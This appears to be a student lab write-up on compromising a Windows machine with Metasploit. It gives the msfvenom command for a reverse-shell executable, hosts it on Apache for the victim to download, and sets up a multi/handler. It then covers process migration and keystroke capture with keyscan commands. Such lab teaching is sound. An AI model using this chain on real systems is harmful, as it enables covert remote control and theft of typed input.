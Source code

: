 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
OUTPUT:
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/73df9249-0425-4b20-932d-4837c6ae45c2)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
OUTPUT
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/127368e4-5c79-49a6-b33d-1e7f62f5ed8c)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/29cc407e-6567-4804-82c2-92474dfc0270)
Start apache server sudo systemctl apache2 start
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/eb1001b2-1904-470f-8f82-42fa0414c798)
Check the status of apache2
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/4dcd6005-ffe3-4c68-915a-d8640d85c571)
Invoke msfconsole:

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/5a15a7d3-8d84-4227-897d-4a65ee7e93ae)
set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/2ba90ceb-8360-46e4-8285-cb5cc8f7adf9)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/a832e813-c1a5-4501-a0ad-9349c121a387)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/04aaf57d-93d3-4865-8ab2-6604dcce934f)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/842d9ca8-2282-4429-8190-1e676bf4c94d)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/4698d960-28c5-4374-9439-03393a5e683e)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/760536e0-87d5-45db-91fa-0e802a693eb2)















## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
